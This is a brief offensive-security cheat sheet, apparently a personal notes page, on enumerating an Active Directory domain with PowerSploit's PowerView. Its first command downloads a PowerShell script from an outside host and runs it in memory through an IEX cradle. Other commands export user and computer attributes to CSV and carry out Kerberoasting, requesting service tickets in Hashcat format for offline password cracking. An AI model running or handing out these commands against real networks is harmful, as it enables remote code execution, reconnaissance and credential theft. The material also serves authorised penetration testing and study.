 ```yaml
---
description: This is just a living document of things I have needed for domain enumeration
---
```


# Domain Enumeration

## POWERSPLOIT

Use the `dev` branch or [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/dev)

`PS  > IEX(New-Object Net.WebClient).downloadString('http://10.10.10.123/ps/PowerView.ps1')`

### Domain Users

`Get-NetUser * -Domain corp.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,mail,useraccountcontrol | Export-CSV users.csv`

### Domain Computers

`Get-NetComputer * -Domain corp.local | Select-Object -Property dnshostname,operatingsystem,operatingsystemservicepack,lastlogontimestamp | Export-CSV computers.csv`

### SPN Ticket Request

`Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\ticket.csv -NoTypeInformation`

## 

